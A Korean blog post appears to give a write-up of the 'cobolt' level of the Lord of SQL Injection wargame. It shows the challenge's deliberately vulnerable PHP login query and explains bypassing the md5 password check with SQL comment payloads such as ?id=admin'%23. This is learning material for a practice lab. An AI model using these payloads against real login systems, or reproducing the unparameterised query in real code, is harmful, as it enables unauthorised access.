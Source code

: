 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - cobolt 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


두 번째 문제는 `cobolt`이다.  

모든 문제의 이름이 괴물(?) 몬스터(?)의 이름인 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------
query : select id from prob_cobolt where id='' and pw=md5('')
------------------------------------------------------------------------------

<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

이번에는 `pw`를 쿼리에 넣을 때 `md5`로 해싱을 한다.  

때문에 이 전 문제처럼 pw에 인젝션을 해 문제를 풀 수 없다.  

문제를 풀기위한 조건도 좀 달라졌다.  

```php
if($result['id'] == 'admin') solve("cobolt");
```

즉, 쿼리 결과로 나온 `id`가 `admin`이어야 문제를 풀 수 있다.  

어떻게 할 지 고민하다가 `pw` 검증 루틴을 아예 무시하도록 하는 방법을 사용했다.  

나는 주석을 사용했는데, 주석은 `#`이나 `--`를 사용한다.  

이 때, `--`를 사용할 때는 뒤에 꼭 공백이 있어야 한다.  

따라서 다음과 같은 두 가지 방법으로 문제를 풀 수 있다.  

```
1. ?id=admin'--%20
2. ?id=admin'%23
```

공백과 #은 `URL Encoding`을 해서 넘겨주어야 한다.  

역시 이번에도 문제가 풀렸다.  

```php
--------------------------------------------------------------------------------------
query : select id from prob_cobolt where id='admin'#' and pw=md5('')
--------------------------------------------------------------------------------------

COBOLT Clear!
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

`COBOLT Clear!!`

